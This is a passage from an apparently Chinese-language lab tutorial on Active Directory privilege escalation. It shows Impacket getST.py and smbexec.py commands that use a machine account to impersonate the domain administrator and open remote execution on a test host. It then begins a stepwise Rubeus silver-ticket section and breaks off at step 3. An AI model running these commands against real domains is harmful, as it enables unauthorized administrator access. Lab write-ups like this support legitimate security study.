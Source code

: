 ```plain
./getST.py -dc-ip dc.hacke.testlab hacke.testlab/evilsystem$:evil -spn cifs/win7-test.hacke.testlab -impersonate administrator 
export KRB5CCNAME=administrator.ccache
./smbexec.py -no-pass -k win7-test.hacke.testlab
```

[![](assets/1705982146-409164735a03bf386e55d1b92b6182eb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223835-97ba5adc-b7a1-1.png)

#### Rubeus 提权

Step 1：在 Windows server 2008 R2 中得普通域用户 Al2ex 无法访问 win7-test

[![](assets/1705982146-41d48d9634feb534d6705ba91807bcca.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223849-a00c3106-b7a1-1.png)  
Step 2：清空票据  
[![](assets/1705982146-e1e8783311070a09a0f950096dee8a1a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223859-a5ad5450-b7a1-1.png)  
Step 3：之后在 Windows server 2008 R2 中使用 rebues 请求白银票据